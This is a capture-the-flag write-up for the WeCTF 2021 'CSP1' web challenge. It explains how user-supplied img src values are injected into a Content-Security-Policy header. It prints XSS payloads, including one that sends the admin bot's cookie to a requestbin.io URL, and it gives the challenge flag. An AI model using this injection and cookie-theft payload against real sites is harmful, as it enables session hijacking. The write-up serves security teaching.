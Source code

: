 # WeCTF 2021

### Solver: Will Green ([Ducky](https://github.com/wlg0005))
### Challenge: CSP1
### Category: Web 

## Description:

#### Shame on Shou if his web app has XSS vulnerability. More shame on him if he does not know how to use CSP correctly.

#### Hint: Search Content-Security-Policy if you don't know what that is and check your browser console.

## Walkthrough:

Navigating to the provided URL, we're presented with a page that looks like this:

![](CSP1%20Writeup.001.png)

We can provide HTML such as `<h1>This is a test</h1>` and after we hit submit, it will be displayed to us on the next page. However, if we try to insert JavaScript via `<script>` tags, we are blocked by the [`Content Security Policy (CSP)`](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

Since we're given the source code for the site, let's take a look at how the CSP is implemented:

```javascript
@app.route('/display/<token>')
def display(token):
    user_obj = Post.select().where(Post.token == token)
    content = user_obj[-1].content if len(user_obj) > 0 else "Not Found"
    img_urls = [x['src'] for x in bs(content).find_all("img")]
    tmpl = render_template("display.html", content=content)
    resp = make_response(tmpl)
    resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
    return resp
```

From the code it looks like the [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) directive being set to `none` is the cause of our issues. The `script-src` directive specifies valid sources for JavaScript, and it being set to `none` means, as you would expect, there are no valid sources. 

So.. how do we get around this? Well you might notice that there is another directive, `img-src` which is using our input to specify valid sources for images:

```javascript
img_urls = [x['src'] for x in bs(content).find_all("img")]
...
resp.headers["Content-Security-Policy"] = "default-src 'none'; connect-src 'self'; img-src " \
                                              f"'self' {filter_url(img_urls)}; script-src 'none'; " \
                                              "style-src 'self'; base-uri 'self'; form-action 'self' "
```

So, the code will parse any `<img>` tags for the URL provided in the `src` parameter, and insert those URLs into the CSP. This means that we can perform a [CSP policy injection attack](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#policy-injection)!

Now that we have a good idea of the exploit, let's craft it:

![](CSP1%20Writeup.002.png)

```javascript
<img src="http://; script-src 'unsafe-inline'"></img>
<script>alert(1)</script>
```

So, because the CSP is simply inputting the "URL" in the `src` parameter into the CSP, we can easily inject a duplicate `script-src` directive, but we will set ours to `unsafe-inline` allowing us to use inline `<script>` tags. And because of the way CSP works, our version of the directive will take precedence.

Let's fire off our test and see if works:

![](CSP1%20Writeup.003.png)

Popped!

Nice, so we've successfully exploited the vulnerability but the flag is actually held in the Admin Bot's cookies. So, let's change our exploit a little bit to allow us to steal his cookie:

![](CSP1%20Writeup.004.png)

```javascript
<img src="http://; script-src 'unsafe-inline'"></img>
<script>window.location = 'https://requestbin.io/1fy84do1?cookie=' + document.cookie;</script>
```

Great, this exploit will make the Admin Bot navigate to our [RequestBin](https://requestbin.io/) link, with his cookie set as the value of a GET parameter, allowing us to inspect the request and thus see the cookie.

Let's send the final exploit to the Admin Bot, and inspect the RequestBin:

![](CSP1%20Writeup.005.png)

And there's the flag! Pretty cool challenge that highlighted one of the easier ways to get around CSP.

### Flag: we{2bf90f00-f560-4aee-a402-d46490b53541@just_L1k3_<sq1_injEcti0n>}
